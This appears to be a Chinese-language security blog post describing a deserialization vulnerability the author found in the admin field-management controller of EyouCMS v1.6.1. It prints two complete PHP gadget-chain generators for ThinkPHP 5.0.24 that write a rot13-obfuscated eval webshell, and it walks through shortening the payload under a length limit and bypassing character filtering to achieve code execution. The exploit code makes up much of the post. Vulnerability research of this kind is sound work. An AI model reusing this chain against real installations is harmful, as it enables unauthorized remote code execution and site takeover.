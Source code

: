  [Home]()[About]()[Writing]()[links]()

[1. EyouCMS v1.6.1 反序列化漏洞](#EyouCMS-v1-6-1-反序列化漏洞)

# EyouCMS v1.6.1 0day挖掘

N1k0la

2023-01-28

前言

官网地址：https://www.eyoucms.com/

看到很多EyouCMS的XSS，从官网下载源码随便看看。

## EyouCMS v1.6.1 反序列化漏洞

![image-20230128235231851](https://nssctf.wdf.ink//img/WDTJ/202304191404547.png)

`application/admin/controller/Field.php#channel_edit`调用了`unserialize`，`unserialize`的参数无法直接控制。

此处反序列化的参数来自数据库的查询结果，很容易想到通过`channel_add`函数向数据库中插入序列化数据，非常简单的思路，但是问题却没有这么简单。

在`channel_add`函数中，如果传入的字段类型为区域，那么将无法控制默认值。

![image-20230129001025280](https://nssctf.wdf.ink//img/WDTJ/202304191404744.png)

测试了`application/admin/controller/Field.php`中的一些功能后，发现`arctype_edit`函数和`channel_edit`函数操作的是同一张表，此时想到也许可以用`arctype_edit`代替`channel_edit`来修改数据库中的数据。

![image-20230129002650299](https://nssctf.wdf.ink//img/WDTJ/202304191404463.png)

果然可以。

![img](https://nssctf.wdf.ink//img/WDTJ/202304191404133.png)

EyouCMS基于ThinkPHP 5.0.24，直接用ThinkPHP 5.0.24的反序列化链。

```
<?php

namespace think\cache\driver;
class File
{
    protected $tag='t';
    protected $options = [
        'expire'        => 0,
        'cache_subdir'  => false,
        'prefix'        => false,
        'path'          => 'php://filter/string.rot13/resource=<?cuc @riny($_TRG[_]);?>/../a.php',
        'data_compress' => false,
    ];
}
namespace think\session\driver;
use think\cache\driver\File;
class Memcached
{
    protected $handler;
    function __construct()
    {
        $this->handler=new File();
    }
}
namespace think\console;
use think\session\driver\Memcached;
class Output
{
    protected $styles = ['removeWhereField'];
    function __construct()
    {
        $this->handle=new Memcached();
    }
}
namespace think\model\relation;
use think\console\Output;
class HasOne
{
    function __construct()
    {
        $this->query=new Output();
    }

}
namespace think\model;
use think\model\relation\HasOne;
class Pivot
{
    protected $append = ['getError'];
    public function __construct()
    {
        $this->error=new HasOne();
    }
}
namespace think\process\pipes;
use think\model\Pivot;
class Windows
{
    public function __construct()
    {
        $this->files=[new Pivot()];
    }
}
$x=new Windows();
echo base64_encode(serialize($x));
```

因为不存在字段名称为channel_add的arctype，所以报错了。

![image-20230129004039718](https://nssctf.wdf.ink//img/WDTJ/202304191404577.png)

通过`arctype_add`函数新增一个字段名称为channel_add的arctype后重新发包，因为序列化数据的长度超过了最大长度500又报错了。删除了一些无关紧要的类属性同时将类属性的访问控制修改为`public`以缩短序列化数据的长度，最终序列化数据长度为499，极限绕过。

```
<?php

namespace think\cache\driver;
class File
{
    public $tag='t';
    public $options = [
        'path'          => 'php://filter/string.rot13/resource=<?cuc @riny($_TRG[_]);?>/../a.php'
    ];
}
namespace think\session\driver;
use think\cache\driver\File;
class Memcached
{
    public $handler;
    function __construct()
    {
        $this->handler=new File();
    }
}
namespace think\console;
use think\session\driver\Memcached;
class Output
{
    public $styles = ['removeWhereField'];
    function __construct()
    {
        $this->handle=new Memcached();
    }
}
namespace think\model\relation;
use think\console\Output;
class HasOne
{
    function __construct()
    {
        $this->query=new Output();
    }

}
namespace think\model;
use think\model\relation\HasOne;
class Pivot
{
    public $append = ['getError'];
    public function __construct()
    {
        $this->error=new HasOne();
    }
}
namespace think\process\pipes;
use think\model\Pivot;
class Windows
{
    public function __construct()
    {
        $this->files=[new Pivot()];
    }
}
$x=new Windows();
echo strlen(serialize($x));
echo base64_encode(serialize($x));
```

![image-20230129010350387](https://nssctf.wdf.ink//img/WDTJ/202304191404605.png)

本以为大功告成，但是调用`channel_edit`函数后并没有如预期那样写入webshell，发现数据库中的序列化数据少了一些字符。

![image-20230129010820213](https://nssctf.wdf.ink//img/WDTJ/202304191404917.png)

分析源码，当传入的字段类型为区域时，默认值中的一些字符会被替换为空。

![image-20230129011242012](https://nssctf.wdf.ink//img/WDTJ/202304191404965.png)

通过传入数组的方式就能够使传入的字段类型不满足`if`的条件，从而避免序列化数据中的一些字符被替换为空。

![image-20230129012654812](https://nssctf.wdf.ink//img/WDTJ/202304191404326.png)

最后触发反序列化写入webshell。

![image-20230129012948503](https://nssctf.wdf.ink//img/WDTJ/202304191404278.png)

![image-20230129013037290](https://nssctf.wdf.ink//img/WDTJ/202304191404545.png)

[ Menu](#) [ TOC](#) [ Share](#)

Copyright © 2020-2023 N1k0la

[Home]()[About]()[Writing]()[links]()